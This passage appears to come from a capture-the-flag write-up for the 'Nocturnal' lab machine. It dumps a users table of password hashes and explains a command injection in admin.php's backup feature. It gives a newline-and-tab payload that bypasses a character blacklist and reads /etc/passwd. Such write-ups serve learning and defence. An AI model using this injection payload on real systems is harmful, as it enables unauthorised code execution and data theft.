 ![nocturnal-1744501821503.png](/assets/img/img_nocturnal/nocturnal-1744501821503.png)
![nocturnal-1744501853714.png](/assets/img/img_nocturnal/nocturnal-1744501853714.png)

Let's take a look inside the database.
```bash
sqlite3 nocturnal_database.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
uploads  users
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
```

> The database isn't actually meant to be found just yet. The intended method is to inject a command into the password field. We can see this if we open the backup to: `admin.php`. We can see that the password is injected into a command.
> `$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";`
> However we have to bypass the following filter: 
> ``$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];``
> We can use newline characters and tabs to bypass the filter and get remote code execution.
> Sending: `w1ld%0Acat%09%2Fetc%2Fpasswd%3E` in the password field through burp allows for remote code execution and for us to view it in the output.
> ![./assets/img/img_nocturnal/nocturnal-1744899420035.png](/assets/img/img_nocturnal/./assets/img/img_nocturnal/nocturnal-1744899420035.png)
> We can use this to enumerate the folders and find the database in `../nocturnal_database/nocturnal_database.db`
> After we find it we can copy it back to the current directory and we can download a backup.
{:.info}
